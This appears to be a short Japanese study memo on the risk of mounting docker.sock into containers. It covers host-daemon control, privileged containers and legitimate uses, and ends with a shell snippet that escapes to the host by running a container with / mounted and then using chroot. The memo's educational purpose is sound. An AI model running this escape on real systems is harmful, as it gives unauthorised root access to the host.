 # step2

Dockerソケット（/var/run/docker.sock）を共有することで、ホストのDockerデーモンにアクセスできるようにする。
- Dockerコマンドの実行
  コンテナ内からdockerコマンドを失効し、ホスト上の他のコンテナの起動、停止、削除や、Dockerイメージの操作が自由に行える。
- 特権コンテナの作成
  攻撃者が自分自身のために、ホストのリソースにフルアクセスできる新たな特権コンテナを起動できる。
  -> とっても危険

## `docker.sock` のユースケース

- コンテナの中からホストのDockerデーモンを操作する必要がある場合
  - CI/CDパイプラインでの利用
  - Docker in Docker (DinD) の代替
  - コンテナ監視・管理ツール
  - ローカル開発環境のセットアップ

## 脱出

コンテナないで実行する

```sh
# コンテナ内でdockerをインストール
apt-get update && apt-get install -y docker.io
# コンテナ内からホストのDockerデーモンに命令
docker run -it -v /:/host ubuntu
# 
chroot /host
```
